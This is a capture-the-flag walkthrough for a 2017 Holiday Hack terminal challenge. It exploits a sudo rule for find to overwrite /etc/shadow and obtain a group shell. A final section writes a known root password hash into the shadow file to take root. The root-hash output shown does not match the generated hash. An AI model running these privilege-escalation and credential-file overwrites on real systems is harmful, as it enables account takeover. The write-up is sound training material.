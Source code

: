* Oh Wait! Maybe WE Are...
   :PROPERTIES:
   :CUSTOM_ID: title
   :END:

** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

#+BEGIN_EXAMPLE
                -->*<--
                  /o\
                 /_\_\
                /_/_0_\
               /_o_\_\_\
              /_/_/_/_/o\
             /@\_\_\@\_\_\
            /_/_/O/_/_/_/_\
           /_\_\_\_\_\o\_\_\
          /_/0/_/_/_0_/_/@/_\
         /_\_\_\_\_\_\_\_\_\_\
        /_/o/_/_/@/_/_/o/_/0/_\
       jgs       [___]  


    My name is Shinny Upatree, and I've made a big mistake.
    I fear it's worse than the time I served everyone bad hake.
    I've deleted an important file, which suppressed my server access.
    I can offer you a gift, if you can fix my ill-fated redress.

    Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_box" to complete this challenge.
    Hint: What commands can you run with sudo?
#+END_EXAMPLE

** How to find the terminal
   :PROPERTIES:
   :CUSTOM_ID: how-to-find-the-terminal
   :END:

From this game: https://2017.holidayhackchallenge.com/game/f09180b7-43e4-406c-83ac-924539e7b8f5

Direct link: https://docker2017.holidayhackchallenge.com/?challenge=a9d07a00-55bc-4391-a02b-71f3c4f1ec44&uid=USER_ID

#+CAPTION: The terminal is just behind the starting ramp on the main platform.
[[./images/terminal-location-we_are.png]]

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

We're logged in as the user =elf=. We happen to know that
=/etc/shadow= is where *NIX systems store the password hashes for
their users.

The system MOTD gives us a hint:

#+BEGIN_QUOTE
What commands can you run with sudo?
#+END_QUOTE

We also know that =sudo= is a program that allows us to run commands with the privileges of other users and/or groups.

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

We need to overwrite /etc/shadow with /etc/shadow.bak. Basically we
need to ~cp /etc/shadow.bak /etc/shadow~, except that we don't have
permissions to do that directly:

#+BEGIN_SRC
elf@784e43534178:~$ cp /etc/shadow.bak /etc/shadow
cp: cannot create regular file '/etc/shadow': Permission denied
#+END_SRC

** Hints
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

Shinny Upatree on Twitter has a few hints:

#+HTML: <blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">I think I have some pseudo (sp?) permissions on this Unix server, but I don&#39;t know what that means. <a href="https://twitter.com/GreenesterElf?ref_src=twsrc%5Etfw">@GreenesterElf</a> said this was a &quot;learning opportunity&quot; and won&#39;t give me the answer :&#39;(</p>&mdash; Shinny Upatree (@ClimbALLdaTrees) <a href="https://twitter.com/ClimbALLdaTrees/status/938578359860174848?ref_src=twsrc%5Etfw">December 7, 2017</a></blockquote>

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

If we follow the hint, we should try to figure out what commands we can run with sudo. Let's run ~sudo -h~ to view the help documentation:

#+BEGIN_EXAMPLE
sudo - execute a command as another user
...
  -l, --list                  list user's privileges or check a specific command; use twice for longer format
...
#+END_EXAMPLE

To follow the hint, we should run sudo with the ~--list~ option, to see what our privileges are:

#+BEGIN_SRC
elf@784e43534178:~$ sudo --list
Matching Defaults entries for elf on 784e43534178:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 784e43534178:
    (elf : shadow) NOPASSWD: /usr/bin/find
#+END_SRC

We can run the find command, but it also mentions something about shadow. Let's give it a shot:

#+BEGIN_SRC
elf@784e43534178:~$ sudo find
[sudo] password for elf: 
#+END_SRC

We don't know the password. The sudo output said we should be able to
run this without a password ("NOPASSWD"). Something's not quite
right. We can run sudo with ~-l -l~ as the help output said to get
some more verbose output:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -l -l
Matching Defaults entries for elf on 784e43534178:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 784e43534178:
Sudoers entry:
    RunAsUsers: elf
    RunAsGroups: shadow
    Options: !authenticate
    Commands:
        /usr/bin/find
#+END_SRC

Ok. So sudo lets us run the find command as the user elf, and the group shadow. Viewing ~sudo -h~ one more time shows us that there's an option we want to set our group to =shadow=:
#+BEGIN_EXAMPLE
  -g, --group=group           run command as the specified group name or ID
#+END_EXAMPLE

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find 
.
./.bashrc
./.bash_logout
./.profile
#+END_SRC

This time, sudo let us run find without prompting us for a
password. So, we know that we can run commands as the elf user, and
the shadow group. Is this enough to overwrite =/etc/shadow=?

#+BEGIN_SRC
elf@784e43534178:~$ ls -l /etc/shadow
-rw-rw---- 1 root shadow 0 Dec 15 20:00 /etc/shadow
#+END_SRC

Yes. =/etc/shadow= is owned by the root user and the shadow group, and
the group has write permissions to it. At this point, the only thing
that's left is figuring out how to use =find= in order to copy
=/etc/shadow.bak= to =/etc/shadow=. =find= has an exec option:

#+BEGIN_EXAMPLE
actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;
#+END_EXAMPLE

Let's give it a shot:
#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \;
#+END_SRC

Looks like that worked:

#+BEGIN_SRC
elf@784e43534178:~$ inspect_da_box 
                     ___
                    / __'.     .-"""-.
              .-""-| |  '.'.  / .---. \
             / .--. \ \___\ \/ /____| |
            / /    \ `-.-;-(`_)_____.-'._
           ; ;      `.-" "-:_,(o:==..`-. '.         .-"-,
           | |      /       \ /      `\ `. \       / .-. \
           \ \     |         Y    __...\  \ \     / /   \/
     /\     | |    | .--""--.| .-'      \  '.`---' /
     \ \   / /     |`        \'   _...--.;   '---'`
      \ '-' / jgs  /_..---.._ \ .'\\_     `.
       `--'`      .'    (_)  `'/   (_)     /
                  `._       _.'|         .'
                     ```````    '-...--'`
/etc/shadow has been successfully restored!
#+END_SRC

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

A one-liner is:

#+BEGIN_SRC
sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \; && inspect_da_box
#+END_SRC

** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

Instead of using =find= to directly copy the file, we can just use it to start an elevated shell:

#+BEGIN_SRC
elf@784e43534178:~$ id
uid=1000(elf) gid=1000(elf) groups=1000(elf)
elf@784e43534178:~$ sudo -g shadow find -exec bash \;
...
elf@784e43534178:~$ id
uid=1000(elf) gid=42(shadow) groups=42(shadow),1000(elf)
#+END_SRC

This shows how we can use =sudo= + =find= as a general privilege escalation mechanism.

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

=find='s exec syntax is a little weird, and a common mistake is forgetting to escape the semicolon at the end:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow ;
find: missing argument to `-exec'
#+END_SRC

Another issue is just the fact that sudo is often set up for user
permissions, and not group permissions, so the =-g= flag is less well
known.

** Going Further - Privilege Escalation

This is neat, but let's elevate privileges to root on this
terminal. Our approach will be to put in a modified shadow file
instead, which will have a password we know for the root user.

First, let's generate the password hash in the right format:

#+BEGIN_SRC
elf@784e43534178:~$ echo "password" | openssl passwd -1 -stdin
$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/
#+END_SRC

Now that we have a hash, we'll use sed to modify the =/etc/shadow.bak=
file to have that for root's password. Remember to be careful in
escaping special characters in the sed command line.

#+BEGIN_SRC
elf@784e43534178:~$ sed -e 's/root:\*/root:$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/' /etc/shadow.bak | tee better.shadow
root:$1$WPvxfOOK$JqDBD/DPQlpkUBOC3qTp51:17484:0:99999:7:::
daemon:*:17484:0:99999:7:::
bin:*:17484:0:99999:7:::
sys:*:17484:0:99999:7:::
sync:*:17484:0:99999:7:::
games:*:17484:0:99999:7:::
...
#+END_SRC

Now, we re-run our find command, and find that we can escalate to root with a password of ~password~:

#+BEGIN_SRC
elf@784e43534178:~$ sudo -g shadow find -exec cp better.shadow /etc/shadow \;
elf@784e43534178:~$ su
Password: 
root@784e43534178:/home/elf# id  
uid=0(root) gid=0(root) groups=0(root)
#+END_SRC
